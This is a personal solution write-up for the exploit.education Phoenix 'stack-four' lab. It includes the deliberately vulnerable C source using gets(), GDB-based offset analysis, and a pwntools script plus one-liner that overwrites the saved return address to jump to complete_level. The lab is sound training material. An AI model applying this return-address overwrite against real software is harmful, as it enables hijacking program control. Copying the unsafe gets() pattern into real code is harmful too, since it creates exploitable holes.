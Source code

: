 Source

```c
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

# Solution

In this challenge, the main function prints the banner and calls the function `start_level()`
We want to overwrite the return address that gets placed onto the stack, with the address of `complete_level`

The buffer is still 64 bytes long, so we can pad that buffer and append the return address of complete_level()

Much like before, find the address of complete_level so we know where we want it to return to.

![](_attachments/Pasted%20image%2020230323210945.png)

In this case, on this VM, its `0x40061d`

![](_attachments/Pasted%20image%2020230323212156.png)

I opened it in GDB to check if the buffer is properly sized for 64 bytes.. but its not.
In this case the `sub rsp, 0x50` is actually 80 bytes of space being allocated on the stack for variables. This is  to account for the 64 byte `buffer` and the 8 bytes (64-bit) for the `void * ret` The astute probably notice that this  leaves us with 72 bytes of space for variables, but why is it leaving room for another 8 bytes.. perhaps stack alignment or something like that.

On further inspection, the HINTS section of the instructions indicate that this is indeed the case :
	-   The saved instruction pointer is not necessarily directly after the end of variable allocations – things like compiler padding can increase the size. [Did you know that some architectures may not save the return address on the stack in all cases?](https://en.wikipedia.org/wiki/Link_register)


But if we crash the program within gdb and have a read we should see the exact length we need to overwrite rip:

![](_attachments/Pasted%20image%2020230323212858.png)

Now we just plug the proper values into our python script from before:


```python
from pwn import *

# fill up the buffer
out = "A" * 80

# overwrite RBP
out += "B" * 8

#use the p64 function to automatically account for \x and endian-ness, and overwrite the RIP
out += p64(0x40061d)
# print it out
print(out)
```

And in one liner form:

```
python -c 'from pwn import *; out = "A"*80; out += "B"*8; out += p64(0x40061d); print(out)'
```


![](_attachments/Pasted%20image%2020230323213243.png)

# Other options / patterns

You could use programs like `pattern_create.rb` and `pattern_offset.rb` to figure these values / padding out for you. But its great to open it a debugger and figure it out for yourself.
GEF itself provides fuzzers/pattern creators to fill this purpose:

Pattern Create
![](_attachments/Pasted%20image%2020230323213657.png)

Pattern Offset
![](_attachments/Pasted%20image%2020230323213817.png)


